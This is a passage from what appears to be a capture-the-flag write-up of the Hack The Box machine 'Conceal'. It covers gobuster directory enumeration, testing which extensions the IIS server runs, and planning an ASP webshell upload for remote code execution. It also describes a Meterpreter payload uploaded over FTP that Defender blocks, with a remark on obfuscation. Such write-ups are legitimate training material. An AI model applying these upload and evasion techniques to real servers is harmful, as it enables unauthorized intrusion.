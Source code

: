```aaa
┌─[baud@parrot]─[~/conceal]
└──╼ $gobuster dir -u http://10.10.10.116 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 2>/dev/null
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.116
[+] Threads:        1000
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/09/04 13:34:54 Starting gobuster
===============================================================
/upload (Status: 301)
===============================================================
2019/09/04 13:35:43 Finished
===============================================================
```

So we can try uploading a bunch of files with common extensions that can give us RCE, for IIS two of the most common extensions are .aspx and .asp, however if we try uploading a .aspx file we get an error in the moment when we try to load the page:

![img](/images/writeup-conceal/3.png)

This error tells us the server isn't configure to use .aspx files, but .asp files are still uploaded we success, for example:

```aaa
┌─[baud@parrot]─[~/conceal]
└──╼ $echo "This is a .asp test" > file.asp
```

![img](/images/writeup-conceal/4.png)

So we can look for .asp webshells and upload one to grant ourselves RCE on the box.

---

## Exploitation: ASP shell upload and execution

My first attempt is usually Meterpreter shells but with recent Windows versions they are always blocked by Defender and thus do not work unless obfuscation is done, either that or the payload is launched in other ways so that the plain payload isn't dropped as-is on the disk. This is one of those cases as Defender will flag the payload as dangerous and will not let us load it or even download it back from FTP:

```aaa
ftp> put msfconceal.asp
local: msfconceal.asp remote: msfconceal.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
38175 bytes sent in 0.06 secs (650.5815 kB/s)
ftp> get msfconceal.asp
local: msfconceal.asp remote: msfconceal.asp
200 PORT command successful.
550 Operation did not complete successfully because the file contains a virus or potentially unwanted software.
ftp>
```
